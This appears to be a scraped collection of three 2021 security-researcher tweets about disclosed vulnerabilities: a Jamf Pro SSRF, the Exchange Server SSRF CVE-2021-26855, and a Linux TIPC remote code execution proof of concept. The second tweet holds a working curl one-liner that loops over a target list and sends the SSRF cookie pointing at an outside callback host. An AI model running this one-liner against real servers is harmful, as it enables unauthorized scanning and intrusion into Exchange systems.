 # infosec_au
**https://twitter.com/infosec_au/status/1465806290995740672 _at 2021-11-30, 22:13:47_**
<blockquote>
The Assetnote security research team discovered a full-read SSRF vulnerability in Jamf Pro (post-authentication) a few months ago. https://t.co/mOaKcJHVUe (CVE-2021-39303 &amp; CVE-2021-40809). Tracing sinks to sources is always a valid strategy.
</blockquote>

* https://blog.assetnote.io/2021/11/30/jamf-ssrf/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>287</code></td>
</tr></table>

---

# HackerGautam
**https://twitter.com/HackerGautam/status/1465746218710183940 _at 2021-11-30, 18:15:05_**
<blockquote>
CVE-2021-26855
Exchange Server SSRF is awesome! 🔥

One Liner ✅

cat target.txt| while read host do;do curl --insecure --path-as-is --silent "$host/owa/auth/x.js" --cookie "X-AnonResource=true; X-AnonResource-Backend=https://t.co/uj6I0mgZN2;";done
</blockquote>

* http://bugbounty.requestcatcher.com/ecp/default.flt?~3

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>209</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1465249899788836865 _at 2021-11-29, 09:22:53_**
<blockquote>
POC of Linux Kernel TIPC remote code execution (CVE-2021-43267) flaw has been disclosed https://t.co/afqB027kgf
</blockquote>

* https://securityonline.info/cve-2021-43267-poc/
